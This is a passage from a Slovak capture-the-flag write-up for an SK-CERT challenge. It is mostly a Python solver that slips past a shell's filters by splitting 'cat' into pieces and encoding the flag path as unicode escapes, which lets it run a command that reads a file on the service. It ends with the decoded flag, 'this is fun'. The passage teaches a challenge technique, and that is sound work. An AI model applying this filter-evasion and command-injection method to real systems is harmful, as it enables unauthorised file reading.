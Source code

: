 ```python
        print("Flag file not found.")
        exit()

    flag_file = '/' + match.group(1)
    print(f"Flag file found: {flag_file}")

    # Prepare 'cat'
    send("$1=`ca`")
    send("$1+=`t`")

    # Prepare flag file path using unicode chars one-by-one
    send(f"$2=`\\u{ord(flag_file[0]):04x}`")
    for char in flag_file[1:]:
        unicode_char = f"\\u{ord(char):04x}"
        send(f"$2+=`{unicode_char}`")

    # Execute 'cat <flag>'
    response = send("$666`${$1} ${$2}`.\\u0074\\u0065\\u0078\\u0074``").decode()

    # Extract and print the flag
    flag_match = re.search(r'(SK-CERT\{.*?\})', response)
    if flag_match:
        print(f"FLAG: {flag_match.group(1)}")
    else:
        print("Flag not found in response.")
```



Vlajku máme, ale vyzerá to na easter egg trošku, čo je vnútri vlajky?

```
tasty-bun> `\u0074\u0068\u0069\u0073\u0020\u0069\u0073\u0020\u0066\u0075\u006E`
this is fun
```

Autori majú zmysel pre humor!

## Vlajka

```
SK-CERT{\u0074\u0068\u0069\u0073\u0020\u0069\u0073\u0020\u0066\u0075\u006E}
```
